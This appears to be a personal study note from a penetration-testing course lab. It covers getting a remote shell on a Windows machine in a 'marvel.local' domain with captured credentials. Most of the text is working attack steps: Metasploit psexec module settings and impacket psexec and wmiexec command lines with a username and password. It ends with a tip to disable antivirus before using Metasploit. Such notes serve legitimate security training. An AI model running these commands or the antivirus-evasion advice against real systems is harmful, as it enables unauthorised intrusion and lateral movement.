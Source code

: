 **Gaining Shell**
<br/>
We have a username and password<br/>
<br/>
lets get shell<br/>
<br/>
lhowlete<br/>
Password1<br/>
<br/>
loud method<br/>
<br/>
msfconsole<br/>
<br/>
serach psexec<br/>
<br/>
exploit/windows/smb/psexec <br/>
<br/>
set RHOSTS &lt;ip&gt;<br/>
set SMBDomain &lt;domain&gt;<br/>
set smbpass &lt;password&gt;<br/>
set smbuser &lt;user&gt;<br/>
set lhost &lt;port (eth0)&gt;<br/>
good to adjust payload<br/>
<br/>
<br/>
didnt run &gt; run twice<br/>
<br/>
<img height="200" src="image.png" width="786"/><br/>
<br/>
show targets<br/>
<br/>
try another target<br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<br/>
also fixed some errors &gt; ran<br/>
<br/>
detected by windows defender<br/>
<br/>
<img height="150" src="image 3.png" width="701"/><br/>
<br/>
Thats ok<br/>
<br/>
<br/>
TRY ALTERNATES<br/>
<br/>
psexec.py marvel.local/lhowlette:Password1@192.168.247.135<br/>
<br/>
Changes from course material<br/>
<br/>
impacket-psexec marvel.local/lhowlette:Password1@192.168.247.135<br/>
<br/>
ALSO detected!<br/>
<br/>
Try something else<br/>
<br/>
impacket-wmiexec marvel.local/lhowlette:Password1@192.168.247.135 <br/>
<br/>
protip &gt; start with psexec or wmiexec... create a half shell look around try and disable AV then use metaspoit<br/>
<br/>
